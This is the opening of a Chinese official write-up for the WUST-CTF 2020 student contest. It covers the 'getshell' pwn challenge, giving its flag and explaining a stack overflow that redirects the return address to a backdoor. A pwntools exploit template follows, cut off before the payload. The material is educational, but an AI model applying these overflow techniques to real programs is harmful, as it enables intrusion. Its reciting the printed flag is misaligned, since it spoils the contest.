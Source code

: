 ```yaml
---
title: WUST-CTF 2020 官方 Writeup
date: 2020-03-30 21:00:00
tags: 
- CTF 
- WriteUps
categories: 
- CTF
---
```

# 前言

去年12月份左右，突然彼得一激灵，想弄个萌新赛给大一大二的打打，不然大家平时都没啥机会打比赛（毕竟现在比赛都是把萌新骗进来杀，一点不友好）。然后开始想赛制，奖励，策划，出题... 经过了各种申请和修改，终于申请成功了，也就有了学校的第一个CTF。一开始没有想到会有那么多外校的师傅来打，所以在环境，题目设置上会出现一些大大小小的问题，加上题目可能对很多师傅来说太简单了，希望师傅们见谅。感谢各位师傅的捧场，你们认真做就是对出题人最好的评价。感谢各路师傅投稿的 writeup，这篇 writeup 作为官方 writeup，就以出题人的角度来写。



# Pwn

## getshell - 33 solves

>Author: ColdShield

flag:`wctf2020{E@sy_get_shel1}`

**程序分析**

![GndqxJ.png](https://s1.ax1x.com/2020/03/30/GndqxJ.png)

开启栈不可执行，没有 canary，PIE 保护

![Gndza6.png](https://s1.ax1x.com/2020/03/30/Gndza6.png)

具体漏洞在`vulnerable`函数中，栈溢出，溢出`0x20-0x18`可覆盖8个字节，即刚好覆盖到返回地址，由于程序内置后门

![GndOM9.png](https://s1.ax1x.com/2020/03/30/GndOM9.png)

返回地址设置成`0x0804851B`即可

**EXP**

和之前换乐赛一样，我的exp都是一个demo copy出来的，主要看`# todo here`下面的内容就好

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = 'getshell'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here
'''
Host ='0.0.0.0'
Port =2333
p = remote(Host,Port)
'''
elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\0'))
my_u32 = lambda x: u32(x.ljust(4, '\0'))
```